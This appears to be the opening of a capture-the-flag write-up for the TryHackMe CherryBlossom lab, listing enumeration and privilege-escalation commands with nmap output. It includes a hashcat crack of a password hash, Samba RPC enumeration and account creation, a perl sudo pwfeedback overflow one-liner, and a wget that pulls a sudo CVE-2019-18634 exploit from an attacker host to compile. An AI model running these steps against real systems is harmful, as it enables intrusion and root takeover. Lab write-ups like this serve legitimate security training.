 - `hashcat -m1800 -a0 --force '$6$zV7zbU1b$FomT/aM2UMXqNnqspi57K/hHBG8DkyACiV6ykYmxsZG.vLALyf7kjsqYjwW391j1bue2/.SVm91uno5DUX7ob0' cherry-blossom.list`
- `searchsploit "sudo 1.8”`
- `gcc sudo-cve-2019-18634/exploit.c -o exploitpwd`
- `python3 -m http.server 8000`

**System Commands:**

- `querydominfo`
- `enumdomusers`
- `queryuser samba`
- `enumprivs`
- `getusrdompwinfo 0x3e8`
- `lsaenumsid`
- `createdomuser overthenet`
- `mget *`
- `dpkg --version`
- `uname -a`
- `su johan`
- `sudo --version`
- `sudo -l`
- `which perl`
- `perl -e 'print(("A" x 100 . "\x{00}") x 50)' | sudo -S /bin/bash`
- `wget http://10.2.37.37:8000/exploit.c`
- `/usr/bin/gcc-7 exploit.c -o cveexploit`

### Laboratory Environment

[CherryBlossom](https://tryhackme.com/r/room/cherryblossom)

### Penetration Approaches and Commands

> **Network Enumeration Phase**
> 

`nmap -sS -sV -sC -T4 -A -O -oN nmap_result.txt -Pn $target_ip`

```bash
PORT    STATE SERVICE     VERSION
22/tcp  open  ssh         OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 21:ee:30:4f:f8:f7:9f:32:6e:42:95:f2:1a:1a:04:d3 (RSA)
|   256 dc:fc:de:d6:ec:43:61:00:54:9b:7c:40:1e:8f:52:c4 (ECDSA)
|_  256 12:81:25:6e:08:64:f6:ef:f5:0c:58:71:18:38:a5:c6 (ED25519)
139/tcp open  netbios-ssn Samba smbd 3.X - 4.X (workgroup: WORKGROUP)
445/tcp open  netbios-ssn Samba smbd 4.7.6-Ubuntu (workgroup: WORKGROUP)
Aggressive OS guesses: Linux 3.10 - 3.13 (96%), ASUS RT-N56U WAP (Linux 3.4) (95%), Linux 3.16 (95%), Linux 3.1 (93%), Linux 3.2 (93%), AXIS 210A or 211 Network Camera (Linux 2.6.17) (93%), Linux 3.10 (93%), Linux 3.12 (93%), Linux 3.18 (93%), Linux 3.19 (93%)
No exact OS matches for host (test conditions non-ideal).
Network Distance: 4 hops
Service Info: Host: UBUNTU; OS: Linux; CPE: cpe:/o:linux:linux_kernel

Host script results:
| smb-os-discovery: 
|   OS: Windows 6.1 (Samba 4.7.6-Ubuntu)
|   Computer name: cherryblossom
|   NetBIOS computer name: UBUNTU\x00
|   Domain name: \x00
|   FQDN: cherryblossom
|_  System time: 2024-09-26T11:54:33+01:00
| smb-security-mode: 
|   account_used: guest
|   authentication_level: user
|   challenge_response: supported
|_  message_signing: disabled (dangerous, but default)
```